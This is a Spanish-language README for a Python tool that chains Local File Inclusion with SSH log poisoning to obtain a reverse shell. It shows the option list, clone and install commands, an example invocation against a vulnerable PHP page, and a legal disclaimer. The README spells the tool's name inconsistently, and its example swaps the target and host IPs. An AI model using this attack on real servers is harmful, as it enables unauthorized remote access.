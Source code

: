 # Log Poisoning SSH → Automated Reverse Shell

[Herramienta](<autopoisonSSH.py>) escrita en **python** que nos permite obtener una **Reverse Shell** de manera automatizada gracias al envenenamiento de los logs relacionados con **SSH** como lo pueden ser el **auth.loh** o **btmp** a través de un **LFI** (Local File Inclusion).

Las opciones disponibles son las siguientes:

```
usage: autoposionSSH.py [-h] -u TARGET_URL -pm TARGET_PARAM -t-ip TARGET_IP -h-ip HOST_IP [-p TARGET_PORT] [-p-ssh TARGET_SSH_PORT] [-l LISTEN_PORT]

☠️ SSH Log Poisoning with LFI → Automated Reverse Shell ☠️

ej: python3 autopoison.py -u http://172.17.0.2/vuln.php -pm file -t-ip 172.17.0.1 -h-ip 172.17.0.2

options:
  -h, --help                                 show this help message and exit
  -u, --target-url          TARGET_URL       Target web url with PHP vulnerable file - ej: http://172.17.0.2/vuln.php
  -pm, --target-param       TARGET_PARAM     Target parameter with LFI capability - ej: file
  -t-ip, --target-ip        TARGET_IP        Target IP - ej: 172.17.0.2
  -h-ip, --host-ip          HOST_IP          Host IP - ej: 172.17.0.1
   
  -p, --target-port         TARGET_PORT      Target http port                                                         (default =   80)
  -p-ssh, --target-ssh-port TARGET_SSH_PORT  Target ssh port                                                          (default =   22)
  -l, --listen-port         LISTEN_PORT      Listen port                                                              (default = 4444)
```

---
## Download

Nos clonamos el repositorio de la siguiente forma:
```bash
git clone https://github.com/Trr0r/autopoisonSSH
cd autopoisonSSH
```

Instalamos las librerías necesarias gracias a **pip3**:
```bash
pip3 install -r requirements.txt
```

---
## Use

```shell
python3 autopoisonSSH.py -u http://172.17.0.2/vuln.php -pm file -t-ip 172.17.0.1 -h-ip 172.17.0.2
```


![Pasted image 20241226190954](https://github.com/user-attachments/assets/756a9fed-e7e5-4718-95a6-3975a1e77ca8)


---
### Advertencia legal

> [!WARNING]
> Este software está destinado solo para uso personal y debe utilizarse únicamente en entornos controlados y con autorización previa. El empleo de esta herramienta en sistemas o redes sin la debida autorización puede ser ilegal y contravenir políticas de seguridad. El desarrollador no se hace responsable de daños, pérdidas o consecuencias resultantes de su uso inapropiado o no autorizado. Antes de utilizar esta herramienta, asegúrate de cumplir con todas las leyes y regulaciones locales pertinentes.
